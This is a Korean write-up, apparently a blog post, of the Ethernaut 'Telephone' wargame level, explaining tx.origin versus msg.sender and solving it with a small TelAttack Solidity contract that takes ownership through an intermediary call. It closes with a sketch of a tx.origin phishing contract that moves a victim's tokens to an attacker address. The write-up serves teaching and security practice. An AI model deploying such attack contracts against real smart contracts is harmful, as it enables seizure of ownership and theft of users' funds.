 https://teberr.notion.site/Ethernaut-Telephone-589e6a0e3fce47b6b984daee74fbb3a1

![telephone.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3f4ea603-baa7-46e6-819d-caa0fb883f03/telephone.png)

> 
> 
> 
> 이번 문제를 해결하기 위해서는
> 
> 1. 컨트랙트의 Ownership을 얻으세요 
> 
> 힌트
> 
> - 개발자 도구 콘솔에서 help() 명령어를 사용해 보세요.

코드는 아래와 같다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

코드가 상당히 간단해서 무엇을 해야 할지가 명확하다. tx.origin과 msg.sender가 같지 않게 하여 owner를 우리가 원하는 주소(나의 메타마스크 주소)로 변경시켜주면 된다.

# 코드 분석 및 공격 설계

이번 문제의 목적은 owner 권한을 얻는 것이며 owner 권한을 얻기 위해서는 tx.origin과 msg.sender가 다르게 하여 changeOwner 함수를 호출해주면 된다.

이를 위해서는 tx.origin과 msg.sender가 어떤 의미인지 짚어봐야 한다.

### EOA(External Owned Account)와 CA(Contract Account)

EOA(External Owned Account)는 공개 이더리움 주소와 개인키 조합을 의미하는데 쉽게 말해 지갑 주소라고 보면 된다. 이것을 이용하여 다른 계정과 이더리움을 송수신하고 스마트 컨트랙트에 트랜잭션을 보낼 수 있다. 메타마스크, 카이카스와 같은 지갑에서 만든 계정이 EOA다.

CA(Contract Account)는 컨트랙트 계정을 의미하는데 외부 소유 계정과 다르게 개인키가 존재하지 않고, 스마트 컨트랙트를 블록체인에 배포할 때 생성된다. 컨트랙트 계정 대신 컨트랙트로만 표시하기도 한다. 즉 컨트랙트를 짜서 컨트랙트에 요청을 보내게 되면 CA를 통해 컨트랙트의 함수를 실행할 수 있다.

### tx.origin과 msg.sender

스마트 컨트랙트 코드를 우리 지갑의 주소(EOA)에서 트랜잭션을 발생시킬 수 있다. 이 때 tx.origin은 이 트랜잭션을 발생시키는 내 지갑주소(EOA)를 의미한다. 하지만 이경우 msg.sender는 현재 컨트랙트를 호출한 주소를 의미한다. 즉 msg.sender는 지갑주소(EOA)가 될수도 있고 컨트랙트 주소(CA)가될수도 있다.

즉 글로벌 변수 tx.origin은 트랜잭션의 발신자(호출의 첫번째 발신자)를 의미하고 msg.sender는 자신을 호출한 주소를 의미한다. 

따라서 owner 권한을 얻기 위해서는 컨트랙트 코드를 통해 Telephone의 changeOwner함수를 실행시키면 tx.origin은 내 지갑주소,msg.sender는 Telephone을 호출한 컨트랙트 주소가 되므로 tx.origin ! = msg.sender 조건을 통과하고 owner 권한을 내가 원하는 주소로 변경할 수 있다.

따라서 Telephone 컨트랙트의 changeOwner를 호출하는 컨트랙트 코드를 작성해보자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract TelAttack {
    Telephone public telephone;
    constructor(address _teladdr) public{
        telephone = Telephone(_teladdr);
    }
    function attack(address _addr) public {
        telephone.changeOwner(_addr);
    }
}
```

Telephone 컨트랙트를 받아서 changeOwner 함수를 호출하되 내가 원하는 주소를 매개변수로 넘겨줄 수 있도록 공격 코드를 작성하였다. 

# 공격

먼저 get new instance를 통해 인스턴스를 생성하자.

![get new instance.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/43886706-6988-416d-9703-e22b753ec20a/get_new_instance.png)

트랜잭션을 허용해주어 인스턴스가 생성된 후에 인스턴스 주소를 확인하자.

![instance 주소.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/da45480b-ae07-4377-b98d-331530a9b87c/instance_%EC%A3%BC%EC%86%8C.png)

인스턴스 주소는 0x9f87048d24684531460c799ce920A631d11cc091 로 되어있는 것을 확인할 수 있다.

![level.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa1fb3be-45f4-4fee-a458-e5e545c4afeb/level.png)

level 컨트랙트에서 우리 문제 인스턴스를 만들었기 때문에 owner가 msg.sender임을 알 수 있고 이 owner 값을 바꾸기 위해서 changeOwner 함수를 호출하는 컨트랙트를 Remix에서 작성하자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract TelAttack {
    Telephone public telephone;
    constructor(address _teladdr) public{
        telephone = Telephone(_teladdr);
    }
    function attack(address _addr) public {
        telephone.changeOwner(_addr);
    }
}

```

코드는 Telephone 컨트랙트 코드를 복사한 뒤 TelAttack 컨트랙트를 생성하여 내부에서 Telephone 컨트랙트를 받을 telephone 변수를 선언하고 생성자(constructor)를 통해 배포할 때 넣어준 Telephone 인스턴스 주소값으로 telephone 변수에 컨트랙트를 저장해준다.

그리고 attack 함수를 통해 내 메타마스크 주소를 파라미터로 넣어주어 telephone 컨트랙트의 changeOwner 함수를 호출하여 owner 권한을 얻어낼 것이다.

![TelephoneAttack.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa898b23-3998-424b-9d45-e82daf58db12/TelephoneAttack.png)

컨트랙트 폴더에 새롭게 TelephoneAttack.sol 파일을 만들고 코드를 입력해준다. 

![compile.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b127da8f-cafc-4cba-bc23-d2ddc9ed3794/compile.png)

TelephoneAttack.sol 파일을 컴파일 해준다.

![Deploy.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a992fc89-92c6-4334-89bf-845df80363b6/Deploy.png)

그리고 배포할때 생성자로 instance의 주소를 넣어주어 이 컨트랙트가 Telephone instance에 접근할 수 있도록 해준다.

![컨트랙트 배포끝.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/26c4e7f7-7651-488a-845d-cc9592c93888/%EC%BB%A8%ED%8A%B8%EB%9E%99%ED%8A%B8_%EB%B0%B0%ED%8F%AC%EB%81%9D.png)

배포하고 나면 이제 attack 함수를 실행할 수 있는데 이 함수를 실행하기 위해서는 owner가 될 주소가 필요하다. 우리 player의 주소로 설정해주자.

![내 주소.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/14fb89ca-b61c-416a-a6d4-79fd0b053cb7/%EB%82%B4_%EC%A3%BC%EC%86%8C.png)

개발자 도구 콘솔에서 player 명령어를 통해 player의 주소는'0x83b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a’ 임을 확인할 수 있다.

![공격.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4ce6e56-8c2a-4a15-a989-8dbfc9d12a62/%EA%B3%B5%EA%B2%A9.png)

이제 내 주소를 입력해주고 공격을 해보자. 트랜잭션을 허용해주면 컨펌이 뜬다.

 

![공격 성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8b3b5912-ae17-410c-bee2-9d987fdbe61c/%EA%B3%B5%EA%B2%A9_%EC%84%B1%EA%B3%B5.png)

공격 함수가 컨펌이 되고 나서 컨트랙트의 owner가 정상적으로 내 주소로 바뀌었음을 확인할 수 있다. 이제 owner 권한을 얻었으므로 instance를 제출하면 개발자 도구 콘솔에서 클리어 했음을 알 수 있다.

 

![클리어.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ca958b94-8fdb-4a79-9d29-69825062b54d/%ED%81%B4%EB%A6%AC%EC%96%B4.png)

클리어 성공!

클리어 후 페이지에서는 아래와 같은 내용을 볼 수 있다.

이 예제에서는 간단하지만 tx.origin과 msg.sender를 잘못 사용하면 피싱 스타일의 공격에 취약해진다. 

예를 들어보면

1. `tx.origin` 을 사용해서 보내는 사람을 정하는 코드가 있다고 가정하자

```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}

```

1. 해커가 공격대상에게 토큰 컨트랙트의 transfer 함수를 호출하는 악성 컨트랙트를 보내 실행하게 만든다. 

```
function () payable {
  token.transfer(attackerAddress, 10000);
}

```

1. 그러면 `tx.origin` 은 공격 대상의 주소가 되고 ( `msg.sender` 는 악성 컨트랙트의 주소임), 피해자의 주소에서 해커의 주소로 돈이 옮겨지게 된다.
